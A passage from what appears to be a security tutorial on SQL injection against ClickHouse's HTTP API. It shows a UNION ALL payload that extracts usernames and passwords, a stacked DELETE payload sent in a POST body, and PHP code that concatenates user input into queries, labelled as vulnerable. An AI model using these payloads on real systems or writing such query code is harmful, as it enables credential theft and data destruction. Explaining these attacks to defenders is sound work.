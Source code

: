The injected `query` parameter would become (approximately, depending on encoding):

```sql
SELECT product_name, price FROM products WHERE category = 'electronics' UNION ALL SELECT user, password FROM users --' ORDER BY price
```

This injected query uses `UNION ALL` to append the `user` and `password` columns from a `users` table to the original query results, potentially exposing user credentials along with product information. The `--` comments out the rest of the original `ORDER BY` clause to avoid syntax errors.

**Example 2: HTTP POST Request Injection - Data Manipulation**

Consider an application that allows users to update product descriptions via a POST request:

```
POST /api/update_product HTTP/1.1
Content-Type: application/x-www-form-urlencoded

product_id=123&description=New description
```

Vulnerable code might construct a query like this:

```php
$productId = $_POST['product_id'];
$description = $_POST['description'];
$query = "UPDATE products SET description = '" . $description . "' WHERE product_id = " . $productId;
// ... send query to ClickHouse via HTTP API with $query in 'query' parameter
```

An attacker can inject malicious SQL to modify other products or even delete data by manipulating the `description` parameter:

```
POST /api/update_product HTTP/1.1
Content-Type: application/x-www-form-urlencoded

product_id=123&description=Malicious description'; DELETE FROM products WHERE category = 'outdated'; --
```

The injected `query` parameter would become:

```sql
UPDATE products SET description = 'Malicious description'; DELETE FROM products WHERE category = 'outdated'; --' WHERE product_id = 123
```

This injected payload attempts to first update the description of product `123` (potentially as intended), but then injects a second SQL statement `DELETE FROM products WHERE category = 'outdated';` which could delete all products in the 'outdated' category. The `--` comments out the rest of the original `WHERE` clause.

**Example 3: Exploiting `file` function - Arbitrary File Read (Severe Impact)**

If an application uses user input to dynamically construct file paths for ClickHouse's `file` function, it becomes highly vulnerable:
